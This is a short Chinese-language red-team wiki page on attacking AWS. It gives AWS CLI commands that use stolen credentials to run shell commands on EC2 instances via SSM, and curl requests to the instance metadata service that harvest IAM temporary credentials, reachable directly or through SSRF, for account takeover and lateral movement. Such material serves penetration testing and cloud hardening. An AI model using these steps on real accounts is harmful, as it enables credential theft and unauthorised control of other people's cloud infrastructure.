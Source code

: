 # aws-cli-command
利用 aws cli 执行命令
当目标实例被 AWS Systems Manager 代理后，除了在控制台可以执行命令外，拿到凭证后使用 AWS 命令行也可以在 EC2 上执行命令。

列出目标实例 ID

aws ec2 describe-instances --filters "Name=instance-type,Values=running" --query "Reservations[].Instances[].InstanceId"

aws ec2 describe-instances --query "Reservations[*].Instances[*].{ID:InstanceId,AZ:Placement.AvailabilityZone,Name:State.Name}" 
在对应的实例上执行命令，注意将 instance-ID 改成自己实例的 ID

aws ssm send-command \
    --instance-ids "instance-ID" \
    --document-name "AWS-RunShellScript" \
    --parameters commands=ifconfig \
    --output text
获得执行命令的结果，注意将 $sh-command-id 改成自己的 Command ID

aws ssm list-command-invocations \
    --command-id $sh-command-id \
    --details
  
  
元数据
元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。

在云场景下可以通过元数据进行临时凭证和其他信息的收集，在 AWS 下的元数据地址为：http://169.254.169.254/latest/meta-data/，直接 curl 请求该地址即可。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 /iam/security-credentials/<rolename> 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ -w '\n'
获取rolename
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rolename> -w '\n'

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了，这里介绍一些对于 RT 而言价值相对较高的元数据：

mac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
  
  来源：https://wiki.teamssix.com/CloudService/EC2/ec2-exec-command.html
